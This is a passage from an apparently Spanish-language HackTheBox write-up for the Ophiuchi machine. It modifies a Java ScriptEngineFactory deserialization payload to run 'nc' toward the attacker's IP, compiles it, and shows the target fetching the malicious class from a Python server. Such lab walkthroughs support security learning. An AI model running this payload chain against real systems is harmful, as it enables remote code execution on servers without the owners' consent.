 Modifiquemos el archivo `.java` para generar el `.class`. El original ejecuta una calculadora en `mac`:

```java
...
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {
                                                
    public AwesomeScriptEngineFactory() {                                                       
        try {                        
            Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator"); 
        } catch (IOException e) {               
            e.printStackTrace();                                                                
        }                               
    }
...
```

Cambiémoslo para que nos haga una petición hacia el puerto `4433` con `nc`:

```java
...
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("nc 10.10.14.51 4433");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
...
```

Ahora compilémoslo:

```bash
❭ javac AwesomeScriptEngineFactory.java
```

```bash
❭ ls 
AwesomeScriptEngineFactory.class  AwesomeScriptEngineFactory.java
```

* [¿Qué es un archivo **.class** en **Java**?](https://es.quora.com/En-Java-qu%C3%A9-es-un-archivo-class).

Nos ponemos en escucha en `Python` y en `nc`:

![315bash_listener_ncYpy](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/ophiuchi/315bash_listener_ncYpy.png)

Ahora vamos a la web y volvemos a ejecutar el payload inicial que apunta hacia nuestra máquina. En nuestro servidor en `Python` recibimos:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.227 - - [18/Feb/2021 13:13:13] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 200 -
10.10.10.227 - - [18/Feb/2021 13:13:13] "GET /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 200 -
10.10.10.227 - - [18/Feb/2021 13:13:13] "GET /artsploit/AwesomeScriptEngineFactory.class HTTP/1.1" 200 -
```

